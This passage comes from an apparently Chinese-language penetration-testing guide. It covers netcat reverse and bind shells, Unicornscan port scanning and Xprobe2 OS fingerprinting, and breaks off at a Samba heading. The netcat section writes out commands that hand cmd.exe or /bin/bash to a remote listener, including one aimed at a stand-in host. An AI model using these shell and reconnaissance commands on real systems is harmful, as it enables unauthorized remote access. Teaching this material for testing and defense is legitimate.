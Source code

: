 
**使用 NC 在 Windows 上反弹 shell **

> 

<pre>c:&gt;nc -Lp 31337 -vv -e cmd.exe
nc 192.168.0.10 31337
c:&gt;nc example.com 80 -e cmd.exe
nc -lp 80
 
nc -lp 31337 -e /bin/bash
nc 192.168.0.10 31337
nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000</pre>


### 8.Unicornscan收集网络信息

Unicornscan是一款通过尝试连接用户系统（User-land）分布式TCP/IP堆栈获得信息和关联关系的端口扫描器。它主要功能包括带有所有TCP变种标记的异步无状态TCP扫描、异步无状态TCP标志捕获、通过分析反馈信息获取主动/被动远程操作系统、应用程序、组件信息

网站主页： [http://www. unicornscan.org/](https://link.zhihu.com/?target=http%3A//www.unicornscan.org/)

拓展学习： [https:// sanppz.com/2019/11/30/U nicornscan%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F/#%E4%BB%80%E4%B9%88%E6%98%AFUnicornscan%EF%BC%9F](https://link.zhihu.com/?target=https%3A//sanppz.com/2019/11/30/Unicornscan%25E7%25AB%25AF%25E5%258F%25A3%25E6%2589%25AB%25E6%258F%258F/%23%25E4%25BB%2580%25E4%25B9%2588%25E6%2598%25AFUnicornscan%25EF%25BC%259F)

> 
<pre>us -H -msf -Iv 192.168.56.101 -p 1-65535
us -H -mU -Iv 192.168.56.101 -p 1-65535


-H 在生成报告阶段解析主机名
-m 扫描类型 (sf - tcp, U - udp)
-Iv - 详细</pre>



### 9.Xprobe2识别操作系统指纹

xprobe2是一款远程主机操作系统探测工具。

网站主页： [http:// xprobe.sourceforge.net/ oldindex.html](https://link.zhihu.com/?target=http%3A//xprobe.sourceforge.net/oldindex.html)

下载地址： [https:// sourceforge.net/project s/xprobe/files/latest/download](https://link.zhihu.com/?target=https%3A//sourceforge.net/projects/xprobe/files/latest/download)

拓展学习： [https:// blog.csdn.net/qq_406336 69/article/details/84656228](https://link.zhihu.com/?target=https%3A//blog.csdn.net/qq_40633669/article/details/84656228)

> 
<pre>xprobe2 -v -p tcp:80:open IP
</pre>


**注：参数-v：详细输出。参数-p：对指定端口/组端口进行扫描。**

### 10.枚举Samba
